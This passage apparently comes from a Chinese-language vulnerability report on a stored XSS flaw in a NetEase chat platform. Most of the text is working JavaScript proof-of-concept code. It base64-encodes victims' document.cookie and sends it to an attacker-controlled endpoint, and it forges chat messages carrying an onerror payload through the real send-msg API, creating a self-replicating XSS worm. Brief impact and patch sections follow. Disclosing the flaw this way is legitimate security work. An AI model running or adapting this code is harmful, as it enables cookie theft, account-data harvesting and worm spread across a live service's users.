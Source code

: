         // base64 加解密
        const encode = str => {
            var b64 = btoa(unescape(encodeURIComponent(str)))
            return b64
        }
        const decode = str => {
            var str = decodeURIComponent(escape(atob(str)));
            return str
        }
        //获取并发送cookie，可能带有手机号
        const sendCookie = () => {
            var encoded = encode(document.cookie)
            // send data
            justSend(api_burp + '?data=' + encoded)
        }

        // 发送xss payload
        const startSendLinkMessage = async function () {

            // 链接，设置fromUid为攻击者的UID
            var payload_json = { "serverId": "0149881854", "channelId": "1459481", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": [{ "type": "TITLE", "data": { "banner": "", "icon": "https://ok.166.net/reunionpub/pr_ie_b9j52wbl0e3l6hvzjbq\u003d\u003d_50_1535083040_870", "atUser": "@灯中烛火", "text": "签到成功！" }, "order": 0.0 }, { "type": "TEXT", "data": "<img src=x onerror=console.log(111222233)>", "order": 1.0 }, { "type": "BUTTON", "data": [{ "text": "立即抽奖", "action": { "type": "OPEN_URL", "data": "https://act.ds.163.com/caa6e9455189fb93/64eeea62ee5826000175e65a?utm_source\u003dchatroom\u0026utm_medium\u003dbot+" } }], "order": 2.0 }], "contentType": "IMAGE_TEXT_TEMPLATE" }

            var headers = setHeaderDs(JSON.stringify(payload_json))
            res = await myPostFetch('https://inf-im.ds.163.com/v1/web/chat-room-msg/send-msg', headers, payload_json)
        }
        // 判断pc端还是手机端
        const isMobile = /iPhone|iPad|iPod|Android/i.test(navigator.userAgent);
        if (isMobile) {
            /* your code here */
        } else {
            //web端
            //发送cookie
            sendCookie()
            //伪造发分享消息
            startSendLinkMessage()
        }


## Impact
该漏洞影响网页端所有聊天频道，注意到每个游戏频道都有几十上百万用户，影响深远。用户只要进入聊天界面，无需任何操作就能够遭受攻击。
1. 攻击者可以在聊天群直接嵌入XSS，无需受害者进行操作，能够大规模收集平台用户手机号和账号信息，造成敏感信息泄漏；
2. 攻击者可以在聊天群直接嵌入XSS，无需受害者进行操作，能够伪造用户发消息等，制造XSS蠕虫，实现XSS帖子的自我复制，扩大影响。

## Patch advice
1. 对签到的内容进行过滤，而非直接复杂给innerHTML


